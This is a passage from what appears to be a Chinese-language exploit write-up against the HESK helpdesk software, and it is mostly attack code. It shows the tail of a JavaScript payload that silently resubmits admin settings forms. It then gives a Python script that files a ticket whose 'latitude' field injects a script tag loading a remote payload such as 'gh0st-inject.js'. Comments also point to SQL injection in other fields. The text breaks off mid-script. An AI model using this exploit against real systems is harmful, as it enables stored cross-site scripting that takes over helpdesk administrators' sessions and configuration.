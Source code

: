 ```
          // Remember to reset login-box-header to helpdesk-title and save settings again
          var reset = new FormData(f[0]);
          $.ajax({
            url: $(f).attr('action'),
            data: reset,
            processData: false,
            contentType: false,
            type: 'POST',
            success: function(data){
              console.log("Cleanup done...");
            }
          });
        }
      }});
    }
  });
}); 
})()
```  
  
现在好多了（除了我的编码技能：D）。让我们用一个利用 XSS 漏洞的 python 脚本来补充这个有效负载：  
```
#!/usr/bin/python
import sys
import requests

def submitEvilTicket(target, payloadlocation):
  proxies = {'http': 'http://127.0.0.1:8080'} # Debug
  target = "%s/submit_ticket.php?submit=1" % target
  data = {
    'name': 'loca1gh0st',
    'email': 'loca1gh0st@localhost',
    'priority': '3',
    'subject': 'You have a gh0st in the shell very soon',
    'message': 'Duh-duh, duh duh. Who you gonna call? (loca1)gh0st busters!',
    'latitude': '1;</script><script src="%s"></script><script>//' % payloadlocation, # Stored XSS up to 100 chars
    'longitude': '1', # Stored XSS here to up to 100 chars
    'screen_resolution_height': 123, # SQL injection here, not used in this exploit
    'screen_resolution_width': 123, # SQL injection here, not used in this exploit
    'token': 'whatever',
    'category': '1',
    'hx': '3',
    'hy': ''
  }

  r = requests.post(target, data=data, proxies=proxies)

  res = r.text
  if "ticket.php?track=" in res:
    print "Ticket submitted, now a user would need to view the ticket:\n"
    # If you like you could bs, grep or regex for the Ticket ID, but that's on you
    return True
  return False

def main():
  if len(sys.argv) != 3:
    print "(+) usage: %s <targetandpath> <payloadtarget>" % sys.argv[0]
    print "(+) eg: %s https://192.168.121.103/hesk http://10.10.10.123/gh0st-inject.js" % sys.argv[0]
    sys.argv[0]
    sys.exit(-1)

  target = sys.argv[1];
```